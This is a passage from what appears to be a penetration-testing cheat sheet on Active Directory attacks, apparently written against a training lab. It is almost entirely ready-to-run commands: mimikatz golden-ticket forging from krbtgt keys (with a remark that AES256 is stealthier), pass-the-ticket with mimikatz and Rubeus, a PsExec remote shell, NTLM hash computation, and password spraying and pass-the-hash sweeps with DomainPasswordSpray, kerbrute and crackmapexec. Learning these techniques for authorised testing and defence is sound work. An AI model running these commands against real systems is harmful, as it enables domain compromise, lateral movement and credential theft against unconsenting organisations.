 ```
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Misc

To get NTLM from password:

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

### Password Spraying

From windows

{% code overflow="wrap" %}
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
{% endcode %}

From linux

{% code overflow="wrap" %}
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
{% endcode %}

{% code overflow="wrap" %}
```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
{% endcode %}
